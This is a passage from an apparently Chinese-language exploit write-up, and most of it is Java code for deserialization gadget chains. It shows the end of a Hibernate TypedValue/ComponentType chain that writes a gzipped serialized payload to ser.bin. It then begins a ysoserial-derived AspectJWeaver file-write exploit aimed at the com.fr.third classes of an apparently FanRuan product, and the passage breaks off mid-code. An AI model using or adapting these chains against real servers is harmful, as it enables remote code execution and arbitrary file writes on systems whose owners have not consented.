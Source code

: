 ```
        // 创建 ComponentType 实例，用来触发 PojoComponentTuplizer 的 getPropertyValues 方法
        Object type = createWithoutConstructor(componentTypeClass);

        // 反射将相关值写入，满足 ComponentType 的 getHashCode 调用所需条件
        Field field1 = componentTypeClass.getDeclaredField("componentTuplizer");
        field1.setAccessible(true);
        field1.set(type, tuplizer);

        Field field2 = componentTypeClass.getDeclaredField("propertySpan");
        field2.setAccessible(true);
        field2.set(type, 1);

        Field field3 = componentTypeClass.getDeclaredField("propertyTypes");
        field3.setAccessible(true);
        field3.set(type, new Type[]{(Type) type});

        // 创建 TypedValue 实例，用来触发 ComponentType 的 getHashCode 方法
        TypedValue typedValue = new TypedValue((Type) type, null);

        // 创建反序列化用 HashMap
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(typedValue, "aaa");

        // put 到 hashmap 之后再反射写入，防止 put 时触发
        Field valueField = TypedValue.class.getDeclaredField("value");
        valueField.setAccessible(true);
        valueField.set(typedValue, templates);

        byte[] serialize = Serializer.serialize(hashMap);
        String fileName = "ser.bin";
        FileOutputStream fos = new FileOutputStream(fileName);
        GZIPOutputStream gzip = new GZIPOutputStream(fos);
        gzip.write(serialize);
        gzip.finish();
        fos.close();
    }
}

```  
  
写文件EXP-AspectJWeaver反序列化利用链  
  
AspectJWeaver反序列化利用链  
  
通过查询发现存在 SimpleCache.java 并且内部类StoreableCachingMap是一个继承HashMap的类 那么就可以使用此链![](https://mmbiz.qpic.cn/mmbiz_png/Uu7diaf2LD4LgiaA4LAtykdNdEBZxgvjtT7UibTTzJMAYJSVZP1qawpy3oBQFlL9C01v0V9hYF0Guic0HGSQ193ZJg/640?wx_fmt=png&from=appmsg "")  
  
  
发现也存在内置的 collections4 那么就可以用LazyMap 将其串起来  
  
这里直接对yso的exp进行更改  
```
public class AspectJWeaverEXP {
    public static void main(String[] args) throws Exception {
        String filename ="test9527.txt";
        byte[] content = new BASE64Decoder().decodeBuffer("dGVzdDk1Mjc=");

        // 使用反射获取类的构造函数
        Class ctor = Class.forName("com.fr.third.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor declaredConstructor = ctor.getDeclaredConstructor(String.class,int.class);
        declaredConstructor.setAccessible(true);
        // 实例化类对象
        Object simpleCache = declaredConstructor.newInstance(".", 12);

```